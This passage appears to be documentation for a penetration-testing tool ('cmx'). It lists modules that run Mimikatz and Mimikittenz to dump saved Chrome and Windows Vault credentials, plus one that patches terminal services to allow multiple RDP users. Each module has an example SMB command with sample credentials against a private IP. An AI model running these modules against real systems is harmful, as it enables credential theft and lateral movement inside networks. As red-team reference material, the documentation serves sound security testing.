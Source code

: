 Multiple_Host | Requires LA | Requires DA | Opsec_safe
|---|---|---|---|
true | true | false | true  

**Options:**
```

```
**Example Usage:**
```
~# cmx smb 192.168.1.121 -u tcat -p 'User!23' -M mimikatz_enum_chrome
```
**Expected Results:**
```

~# 
```
--------------------------------------------------------------------------------------------------------------------------------------------------------
## mimikatz_enum_vault_creds 
Executes PowerSploit's Invoke-Mimikatz.ps1 script and decrypts stored credentials in Windows Vault/Credential Manager

Multiple_Host | Requires LA | Requires DA | Opsec_safe
|---|---|---|---|
true | true | false | true 

**Options:**
```

```
**Example Usage:**
```
~# cmx smb 192.168.1.121 -u tcat -p 'User!23' -M mimikatz_enum_vault_creds
```
**Expected Results:**
```

~# 
```
--------------------------------------------------------------------------------------------------------------------------------------------------------
## mimikittenz               
Executes the Mimikittenz script

Multiple_Host | Requires LA | Requires DA | Opsec_safe
|---|---|---|---|
true | true | false | true 

**Options:**
```

```
**Example Usage:**
```
~# cmx smb 192.168.1.121 -u tcat -p 'User!23' -M mimikittenz
```
**Expected Results:**
```

~# 
```
--------------------------------------------------------------------------------------------------------------------------------------------------------
## multirdp                  
Patches terminal services in memory to allow multiple RDP users
